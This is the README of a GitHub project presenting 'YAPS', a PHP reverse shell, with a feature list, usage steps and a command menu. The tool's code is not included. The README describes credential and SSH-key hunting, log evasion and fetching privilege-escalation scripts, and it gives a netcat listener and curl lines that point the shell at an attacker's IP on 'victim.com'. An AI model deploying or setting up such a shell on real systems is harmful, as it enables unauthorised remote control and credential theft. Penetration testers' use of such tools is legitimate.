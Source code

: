 # YAPS
**Y**et **A**nother **P**HP **S**hell

Yeah, I know, I know... But that's it. =)

As the name reveals, this is yet another PHP reverse shell, one more among hundreds available out there. It is a single PHP file containing all its functions and you can control it via a simple netcat listener (`nc -lp 1337`).

In the current version (1.0), its main functions support only linux systems, but i'm planning to make it work with Windows too.

It's currently in its first version and I haven't tested it much yet, and there are still many things I intend to do and improve for the next versions, so please let me know if you've found any bugs. =)

## Features
* Single PHP file (no need to install packages, libs, or download tons of files)
* Works with netcat, ncat, socat, multi/handler, almost any listener
* Customizable password protection
* No logs in .bash_history
* Can do some enumeration
  * Network info (interfaces, iptables rules, active ports)
  * User info
  * List SUID and GUID files
  *  Search for SSH keys (public and private)
  *  List crontab
  *  List writable PHP files
* Auto download LinPEAS, LinEnum or Linux Exploit Suggester
* Write and run PHP code on remote host
* (Semi) Stabilize shell

## Cons
* Connection isn't encrypted (nc does not support SSL)
* Not interactive (although you can spawn an interactive shell with `!stabilize`)
  * CTRL+C breaks it; can't use arrows to navigate (unless you use `rlwrap`)

## Usage
1. Set up a TCP listener;
2. Set your IP and port. This can be done by:
* 2.1 Editing the variables at the start of the script;
* 2.2 Setting them via web request (`curl -x POST -d "x=ip&y=post victim.com/yaps.php"` or `curl victim.com/yaps.php?x=ip&y=post`);
3. Open yaps.php on browser or curl it;
4. Hack!

## Working commands
* `!help - Display the help menu`
* `!color - Toggle PS1 color (locally only, no environment variable is changed)`
* `!enum - Download LinPEAS and LinEnum to /tmp and get them ready to use`
* `!info - list informations about the target (the enumeration I mentioned above)`
* `!stabilize - Spawn an interactive reverse shell on another port (works w/ sudo, su, mysql, etc.)`
* `!passwd - Password option (enable, disable, set, modify)`
* `!php - Write and run PHP on the remote host`
* `!suggester - Download Linux Exploit Suggester to /tmp and get it ready to use`

## Screenshots

![image](https://user-images.githubusercontent.com/3837916/124773354-45010700-df13-11eb-99c2-bce191425d01.png)

![image](https://user-images.githubusercontent.com/3837916/124777687-c4dca080-df16-11eb-94b7-ef77127c5f20.png)

![image](https://user-images.githubusercontent.com/3837916/124775570-1b48df80-df15-11eb-8a3d-90090e8b8016.png)

![image](https://user-images.githubusercontent.com/3837916/124774830-7dedab80-df14-11eb-9e84-c8d88b9f4de2.png)

![image](https://user-images.githubusercontent.com/3837916/124776296-b641b980-df15-11eb-9a3c-396fe1544825.png)


## Credits
Some ideas were inspired by this tools:

#### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

#### Linenum
https://github.com/rebootuser/LinEnum

#### Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

#### Pentest Monkey
https://github.com/pentestmonkey/php-reverse-shell
